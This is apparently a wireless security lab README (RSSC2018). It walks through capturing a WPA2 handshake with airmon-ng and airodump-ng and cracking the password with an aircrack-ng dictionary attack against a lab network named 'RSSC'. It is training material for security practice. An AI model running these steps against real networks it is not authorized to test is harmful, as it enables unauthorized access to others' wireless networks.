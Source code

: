 # RSSC2018-Wireless-Lab

## Air Monitor
Here we will walk through the process of cracking a WPA2 password.

1. The iwconfig command will show any wireless cards in the system. 
```bash
iwconfig
```
The operating system recognizes a wireless interface named wlan0.

2. Enable the wireless interface.
```bash
ifconfig wlan0 up
```

3. Force the wireless card to scan and report on all wireless networks in the area. The SSID you are trying to target for this lab is named ‘RSSC’. You need the MAC address and the channel that this AP is transmitting on.
```bash
iwlist wlan0 scanning
```

Next, we need to change the wireless card to monitoring mode. We do this by creating a monitor interface using airmon-ng. 

4. Verify airmon-ng sees your wireless card.
```bash
airmon-ng 
```

5. Change the wireless card to monitoring mode. This will allow the wireless card to examine all the packets in the air.
```bash
airmon-ng start wlan0
```

6. Run the ifconfig command to verify the monitor interface is created. 
```bash
ifconfig 
```
We can see wlan0mon was created.

7. Use airodump-ng to capture the WPA2 handshake. The attacker will have to catch someone in the act of authenticating to get a valid capture. We have a script running that acts as someone authenticating to the network and generating that WPA2 handshake. Airodump-ng will display a valid handshake when it captures it. It will display the handshake confirmation in the upper right-hand corner of the screen. We want a to get a few of these handshakes in our capture. Run this command for 15 seconds and then break out of it using ‘ctrl + C’.
```bash
airodump-ng wlan0mon –bssid <mac-address> --channel <channel> –write <filename>
```
## Password Cracking
8. We will use aircrack-ng with the dictionary file to crack the password. 
```bash
aircrack-ng <filename>.cap -a 2 -w <dictionary path>
```

